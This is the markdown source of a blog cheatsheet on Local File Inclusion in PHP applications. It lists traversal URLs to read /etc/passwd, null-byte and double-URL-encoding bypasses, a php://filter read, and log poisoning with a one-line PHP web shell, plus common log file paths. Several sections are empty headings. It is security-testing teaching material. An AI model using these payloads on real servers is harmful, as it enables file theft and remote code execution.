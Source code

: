 ```yaml
---
layout: post
title: "LFI - Local file inclusion"
date: 2023-03-09
description: | 
    Discover concepts of local file inclusion (LFI). Learn the potential consequences of LFI attacks, which can range from information disclosure to remote code execution.
author: Teiiko
categories: [cheatsheet]
tags: ["LFI"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>



## Introduction
Local File Inclusion (also known as LFI) is the process of including
files, that are already locally present on the server, through the
exploiting of vulnerable inclusion procedures implemented in the
application. This vulnerability occurs, for example, when a page
receives, as input, the path to the file that has to be included and
this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although
most examples point to vulnerable PHP scripts, we should keep
in mind that it is also common in other technologies such as JSP,
ASP and others <br>

*(Source: OWASP testing guide)*

## How to test ?

Since LFI occurs when paths passed to "include" statements are
not properly sanitized, in a blackbox testing approach, we should
look for scripts which take filenames as parameters.<br>

Consider the following example:<br>

`http://vulnerable-host/preview.php?file=example.html`

This looks as a perfect place to try for LFI. If an attacker is lucky
enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parame-
ter, it is possible to include arbitrary files on the server<br>

`http://vulnerable-host/preview.php?file=../../../../etc/passwd`

If the above mentioned conditions are met, an attacker would
see something like the following:<br>

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash
...
```

*(Source: OWASP testing guide)*

## Bypass file extension via null byte

Most of the time, the GET parameter will only take filename in argument. The file extension will be specified in the PHP code, as following:<br>
```php
<?php 
    $file = include($_GET["filename"].".php"); 
?>
```
So, simple substitution with arbitrary filename would not
work as the postfix '.php' is appended. To bypass it, we can add a null-byte behind our requested file. In this case, exploitation would work as following:<br>

`http://vulnerable-host/article.php?=/etc/passwd%00`

## Bypass filters via URL encoding

URL encoding can be very usefull to bypass some filters and special chars in the URL. This exploitation can simply be resumed
by URL encoding your payload. In my case, i often use this site: [URL Encoder](https://www.urlencoder.org/). 
In this exemple, our exploitation would look like this:<br>

`http://vulnerable-host/article.php?=..%252f..%252f..%252fetc%252fpasswd%00`

Know that double URL encoding also works.
## Path truncation (under PHP 5.3)
## PHP Wrappers

### php://filter

`php://filter/convert.base64-encode`

Youc can specify a resource wich is the file you want to include. In our exemple, you can do as following:<br>

`http://vulnerable-host/article.php?=php://filter/convert.base64-encode/resource=/etc/passwd`

This will upload a base64-encoded string. By decoding, you'll get the plaintext content of your file.


## From LFI to RCE via log poisoning

A local file inclusion can be escalated to a remote code execution via several ways. A well-known way is via Apache log file poisoning. If the Apache web server is vulnerable to LFI, you can try to access to the log file and set your php payload in your User-Agent. For example, you can set a PHP Web shell as following : `<?php system($_GET['cmd']); ?>`

Here is a list of common log file path:<br>
```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```
## Dorks for LFI - Bug Bounty
## Using ChatGPT for LFI
## Conclusion
<br><br>Thanks for reading ! Give me a feedback on Discord - `Teiiko#8831`

<button id="back-to-top-btn" class="btn btn-primary2 btn-lg circle"><i class="fas fa-arrow-up"></i></button>

<style>
#back-to-top-btn {
  position: fixed;
  bottom: 20px;
  right: 40px;
  display:none;
  cursor:pointer;
}

</style>

<script>
    // Afficher/masquer le bouton "scroll to top"
$(window).scroll(function() {
  if ($(this).scrollTop() > 100) {
    $('#back-to-top-btn').fadeIn();
  } else {
    $('#back-to-top-btn').fadeOut();
  }
});

// Faire remonter au header de la page lorsque le bouton est cliqué
$('#back-to-top-btn').click(function() {
  $('html, body').animate({scrollTop : 0},800);
  return false;
});

</script>